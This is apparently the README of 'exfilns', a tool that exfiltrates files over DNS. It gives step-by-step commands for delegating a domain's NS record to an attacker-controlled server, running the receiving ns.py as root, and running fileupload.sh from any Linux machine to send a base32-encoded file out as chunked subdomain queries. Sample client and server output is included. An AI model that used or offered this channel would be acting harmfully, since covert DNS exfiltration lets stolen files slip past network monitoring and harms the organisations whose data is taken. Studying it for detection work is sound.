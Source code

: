 # exfilns
Setup: 
have a NS record for the domain you want to use pointed to a server you own

As an example, I run exfil.baki.es pointed to a digital ocean droplet

```
$ dig +short exfil.baki.es NS
ubuntu-nyc1-01.cloud.baki.es.
```

On the server (ubuntu-nyc1-01.cloud.baki.es in the above example) run ns.py with root permissions (to bind to port 53) 

```
$ python3 ns.py --origin exfil.baki.es
Started dns server
```

from any Linux machine you should be able to run the fileupload.sh script to upload a file to that server and given the domain being used

With the examples above an output will look something like this from the client:

```
$ fileupload.sh /path/to/file exfil.baki.es
This file will take 7 dns requests
start-7.aJw0K723Xh.fu.exfil.baki.es
krugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayj.0.aJw0K723Xh.fu.exfil.baki.es
aorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4.1.aJw0K723Xh.fu.exfil.baki.es
zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg.2.aJw0K723Xh.fu.exfil.baki.es
5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzs.3.aJw0K723Xh.fu.exfil.baki.es
ayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkru.4.aJw0K723Xh.fu.exfil.baki.es
gs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaor.5.aJw0K723Xh.fu.exfil.baki.es
sxg5akkrugs4zanfzsayjaorsxg5ak.6.aJw0K723Xh.fu.exfil.baki.es
```


And like this from the server output will now have something like this:
```
New file incoming, lines: 7
File: aJw0K723Xh is still missing 6 lines
File: aJw0K723Xh is still missing 5 lines
File: aJw0K723Xh is still missing 4 lines
File: aJw0K723Xh is still missing 3 lines
File: aJw0K723Xh is still missing 2 lines
File: aJw0K723Xh is still missing 1 lines
File: aJw0K723Xh completed upload
File: aJw0K723Xh written to disk
```

The file is given a unique handle (above `aJw0K723Xh`) and is written in the same folder as the python script and is base32 encoded 
